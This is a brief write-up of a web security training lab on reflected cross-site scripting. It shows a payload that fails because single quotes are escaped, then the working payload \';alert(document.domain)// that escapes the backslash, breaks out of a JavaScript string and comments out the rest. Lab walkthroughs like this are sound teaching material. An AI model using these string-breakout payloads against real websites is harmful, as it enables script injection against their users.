

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped : PRACTITIONER

---

Enter `minsawy` and see where it appears.




It is a string, so try breaking out of it using the payload
```
'-alert(document.domain)-' 
```
 - It doesn't work because the `'` gets a `\` placed before it. We need to escape that.

Modify the payload to escape that backslash by adding one.
```
\'-alert(document.domain)-' 
```
- It doesn't work. Maybe there is a syntax error.


Try the other payload and add the backslash in the beginning to escape.
```
\';alert(document.domain)//
```
- We closed off the `searchTerms` variable, added our own code, and then commented the rest.


---
